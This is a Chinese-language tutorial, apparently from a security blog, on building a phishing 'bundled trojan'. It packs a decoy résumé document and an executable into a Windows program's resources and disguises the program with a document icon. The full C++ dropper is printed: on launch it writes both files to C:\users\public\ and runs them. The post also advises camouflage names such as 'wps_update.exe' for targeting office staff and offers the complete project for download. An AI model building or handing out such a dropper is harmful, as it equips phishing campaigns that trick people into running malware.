# 鱼饵-资源文件 捆绑马

## 目录

- [0x00 手法介绍](#0x00-手法介绍)
- [0x01 复现步骤](#0x01-复现步骤)
- [0x02 代码函数详解](#0x02-代码函数详解)
- [0x03 代码展示](#0x03-代码展示)

# 0x00 手法介绍

通过资源文件进行捆绑马的制作，主要是利用 Windows 系统 API 中的资源机制，将一个或多个文件添加到程序中作为资源，并在运行时从程序资源中获取相应的文件数据。

最主要的目的是点击exe后，能打开附件并自动执行木马文件。这和winrar捆绑马有很多的相似之处，都是点击捆绑马后释放到某个目录执行。但不同点在于执行前后的代码逻辑，可以通过C++代码进行设计。如可以增加沙箱检测机制，也可以增加点击自删除机制等等，主打的就是一个定制化~

# 0x01 复现步骤

在这里使用Visual Stdio 2019来创建资源文件

pass:文章末有关键字，回复可获取打包的整个项目。


1.资源文件->添加->资源



2.在"增加资源"中选择"导入"



3.在这里选择"所有文件( *.*)"



4.使用资源文件进行捆绑，会存在文件导入的顺序问题。资源文件会默认按照文件后缀24个字母的排序顺序对导入的文件进行释放。因此在我们导入文件时，也必须按照24个英文字母的顺序对文件进行导入。如这里必须"金融研究生简历.docx">"calc.exe">"docx.ico"这个顺序进行导入。



5.当我们选择完文件后，需要在"资源类型"处输入当前文件的后缀，第一个文件是docx。



6.第二个文件是calc.exe，因此资源类型处要填写"exe"



7.当我们把ico文件也导入后。就可以在这里看到我们导入的三个文件了。



8.最后编译出来的就是带有docx图标的exe文件了



9.当我们点击捆绑马后，首先会在c:\users\public\目录下按照顺序生成"西交利物浦大学金融研究生简历.docx"并打开，再生成"kabers.exe" 后进行打开。




# 0x02 代码函数详解

对文件"释放路径"以及释放后的"名称"进行设置。

在这里释放路径为"C:\\\users\\\public\\\\"，也可以改为其他可写入目录。

同时也可以针对目标的业务，来对释放后的exe名称进行合理编写。如果对方是公司文员，那么可以使用"wps\_update.exe"进程名作为烟雾弹。

```c++
//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";
```

在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。

```c++
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);
```

首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。

```c++
HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());

```

然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。

```c++
HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
```

&#x20;&#x20;

接着，使用 SizeofResource() 函数获取该资源的大小。

```c++
DWORD FileSize = SizeofResource(NULL, Resource);

```

最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。

```c++
LPVOID PFILE = LockResource(ResourceGlobal);
```

# 0x03 代码展示

```c++
#include <iostream>
#include <windows.h>
#pragma comment( linker, "/subsystem:windows /entry:mainCRTStartup" )

using namespace std;

//引入需要的头文件和命名空间，定义全局变量和字符串常量。
static int num = 0;
//在这里定义释放后的exe名称
static string EXE = "kabers.exe";
//在这里定义释放后的附件名称
static string Filename = "简历.docx";
//在这里定义释放路径具体位置
CHAR czTempPath[MAX_PATH] = "C:\\users\\public\\";

//定义 EnumTypesFunc() 函数，该函数用于处理枚举到的资源类型。
void EnumTypesFunc(HMODULE hModule, LPTSTR lpType, LPTSTR lParam) {
    string Name = "";
    CHAR PathFileName[MAX_PATH] = { 0 };
    CHAR FileName[MAX_PATH] = { 0 };

    //在 EnumTypesFunc() 函数中，首先获取资源类型，并将其转换为字符串类型。
    num++;
    char* a = new char[10];
    WideCharToMultiByte(CP_OEMCP, NULL, lpType, -1, a, 6, NULL, FALSE);
    string fileType = string(a);

    //首先，使用 FindResourceA() 函数在当前进程中查找指定资源类型和名称的资源，并返回该资源的句柄。
    HRSRC Resource = FindResourceA(NULL, MAKEINTRESOURCEA(100 + num), fileType.c_str());
    //然后，使用 LoadResource() 函数加载指定资源到内存，并返回该资源的全局内存句柄。
    HGLOBAL ResourceGlobal = LoadResource(NULL, Resource);
    //接着，使用 SizeofResource() 函数获取该资源的大小。
    DWORD FileSize = SizeofResource(NULL, Resource);
    //最后，使用 LockResource() 函数将资源数据锁定到内存中，并返回该资源数据的指针。
    LPVOID PFILE = LockResource(ResourceGlobal);

    //根据资源类型判断需要提取的文件名，并构造保存文件的完整路径。
    if (fileType == "EXE") {
        Name = EXE;
    }
    else {
        Name = Filename;
    }
    string FileNameFinal = czTempPath + Name;
    strcpy_s(FileName, FileNameFinal.c_str());

    //使用 CreateFileA() 函数创建一个新的文件，并将资源数据写入该文件中。
    HANDLE FILE = CreateFileA(FileName, FILE_ALL_ACCESS, 0, NULL, CREATE_ALWAYS, 0, NULL);
    DWORD dwSize;
    WriteFile(FILE, PFILE, FileSize, &dwSize, NULL);
    CloseHandle(FILE);

    //使用 ShellExecuteExA() 函数启动刚才提取的文件
    Sleep(100);
    SHELLEXECUTEINFOA shellexecute = { 0 };
    shellexecute.cbSize = sizeof(shellexecute);
    shellexecute.lpFile = FileName;
    shellexecute.nShow = SW_SHOW;
    ShellExecuteExA(&shellexecute);
}


int main(int argc, char* argv[])
{
    //在 main() 函数中使用枚举函数 EnumResourceTypes() 枚举所有资源类型
    EnumResourceTypes(NULL,
        (ENUMRESTYPEPROC)EnumTypesFunc,
        0);                         
}

```

我也将整个项目都进行了打包，下载后双击即可打开进行编辑，在后台回复“资源”即可获取\~



回复"附件”即可获取如下钓鱼常用附件！




